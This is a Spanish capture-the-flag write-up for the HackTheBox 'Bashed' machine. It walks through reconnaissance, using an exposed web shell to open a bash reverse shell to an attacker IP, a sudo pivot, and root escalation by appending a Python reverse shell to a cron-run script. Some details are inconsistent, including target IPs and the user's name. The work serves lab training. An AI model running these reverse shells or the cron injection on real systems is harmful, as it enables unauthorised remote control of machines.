


# Bashed 
<table>
  <tr>
    <td style="vertical-align: top; padding-right: 20px;">
      
    </td>
    <td style="vertical-align: top; padding-left: 20px;">
      <strong>Vulnerabilidades / Características a tratar</strong>
      <ul>
        <li>Web Enumeration</li>
        <li>Abusing WebShell Utility (RCE)</li>
        <li>Abusing Sudoers Privilege (User Pivoting)</li>
        <li>Detecting Cron Jobs Running on the System</li>
        <li>Exploiting Cron Job Through File Manipulation in Python Executed by Root [Privilege Escalation]</li>
      </ul>
    </td>
  </tr>
</table>

## Reconocimiento inicial
Realizamos un escaneo de todos los puertos para comprobar cuáles estan abiertos y lo exportamos al fichero `allports` 

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.1.89 -oG allports
```

```shell
PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 63
```

Vamos a realizar un escaneo más exaustivo del siguiente puerto encontrado:


```shell
nmap -sCV -p21,22,80 10.10.10.245 -oN targeted
```

Se puede comprobar que no encontramos nada interesante o vulnerable.

```shell
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site
```

Con el siguiente comando voy a comprobar que nos encontramos en la página web.

```shell
whatweb http://10.10.10.68
http://10.10.10.68 [200 OK] Apache[2.4.18], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], IP[10.10.10.68], JQuery, Meta-Author[Colorlib], Script[text/javascript], Title[Arrexel's Development Site]    
```

Voy a realizar un pequeño fuzzing y comprobar si exiten algunos ficheros interesantes.

```shell
nmap --script http-enum -p80 10.10.10.68
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-29 10:36 EDT
Nmap scan report for 10.10.10.68
Host is up (0.056s latency).

PORT   STATE SERVICE
80/tcp open  http
| http-enum: 
|   /css/: Potentially interesting directory w/ listing on 'apache/2.4.18 (ubuntu)'
|   /dev/: Potentially interesting directory w/ listing on 'apache/2.4.18 (ubuntu)'
|   /images/: Potentially interesting directory w/ listing on 'apache/2.4.18 (ubuntu)'
|   /js/: Potentially interesting directory w/ listing on 'apache/2.4.18 (ubuntu)'
|   /php/: Potentially interesting directory w/ listing on 'apache/2.4.18 (ubuntu)'
|_  /uploads/: Potentially interesting folder

Nmap done: 1 IP address (1 host up) scanned in 11.70 seconds
```

Encontramos varios directorios donde podemos encontrar contenido interesante.

## Revisamos la pag web

Cuando revisamos la web nos encontramos un post que explica como se ha desarrollado una aplicación para hacer una `terminal en la web` y como usarla.



Como dice en el mensaje se esta desarrollando en el servidor por lo tanto nos hace pensar que el fichero se encuentra en el servidor y podemos usarlo.


Si examinamos los directorios anteriormente encontramos en la caperta `/dev` encontramos que el fichero existe y se esta ejecutando.



## Intrusión 

Como podemos ejecutar comandos ejecutamos el siguiente comando para entablar una `revershell` en nuestro equipo.

En la bash de la web ejecutamos lo siguiente teniendo en cuenta que el `&` tiene que estar url encodeado

```shell
bash -c "bash -i >%26 /dev/tcp/10.10.16.8/443 0>%261"
```

En otra terminal nos ponemos en escucha con `nc`:

```shell
nc -lvnp 443
```

Obtenemos un revershell.

## Tratamiento de la TTY
Como siempre hacemos el tratamiento de la TTY para ello realizamos lo siguiente

```shell
script /dev/null -c bash
CTRL Z
stty raw -echo; fg
reset xterm
```

De esta manera ya tendremos una terminal totalmente interactiva, además de que podemos ir al directorio `/home` y ver la flag de user.txt


## Escalada de privilegios

Comprobamos que recursos podemos ejecutar como root usamos el siguiente comando:

```shell
sudo -l
```

Al parecer podemos ejecutar cualquier comando como `scriptmanager` por lo tanto vamos a cambiarnos a una shell con este usuario:

```shell
sudo -u scriptmaster bash
```
Una vez que somos el usuario scriptmaster vamos a intentar escalar privilegios al ususario `root`

Buscamos algunos ficheros que tengamos permiso para ejecutar como root, sin embargo no encontramos nada interesante.

```shell
find / -perm 4000 -user root 2>/dev/null
```

```shell
/bin/mount
/bin/fusermount
/bin/su
/bin/umount
/bin/ping6
/bin/ntfs-3g
/bin/ping
/usr/bin/chsh
/usr/bin/newgrp
/usr/bin/sudo
/usr/bin/chfn
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/vmware-user-suid-wrapper
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
```

Buscamos por capabilities , sin embargo no encontramos nada.

```shell
/usr/bin/systemd-detect-virt = cap_dac_override,cap_sys_ptrace+ep
/usr/bin/mtr = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
```

Por último voy a comprobar los  ficheros y directorios que tiene como usuario `scriptmanager`.

```shell
find / -user scriptmanager 2>/dev/null | grep -v "proc"
```

Obtenemos varios ficheros interesantes en la carpeta `/script`

```shell
/scripts
/scripts/test.py
/home/scriptmanager
/home/scriptmanager/.profile
/home/scriptmanager/.bashrc
/home/scriptmanager/.nano
/home/scriptmanager/.bash_history
/home/scriptmanager/.bash_logout
```

Al parece el usuario `root` puede estar ejecutando cada cierto tiempo ese script, para comprobarlo podemos ver si hay alguna tarea asignada al usuario root con python.

```shell
root      10657  0.0  0.0   4508   700 ?        Ss   08:14   0:00 /bin/sh -c cd /scripts; for f in *.py; do python "$f"; done
root      10658  0.0  0.6  24560  6128 ?        S    08:14   0:00 python test.py
```

Efectivamente hay un tarea cron que ejecuta los scripts de esa carpeta con python por lo tanto si editamos el fichero con una revershell como se ejecuta como root obtendremos una shell con privilegios.

Por lo tanto añadimos la revershell en el fichero de la siguiente manera:

```shell
echo "import os; os.system('bash -c \"bash -i >& /dev/tcp/10.10.14.8/4444 0>&1\"')" >> test.py
```

De esta manera poniendonos en escucha por ese puerto obtendremos la terminal.
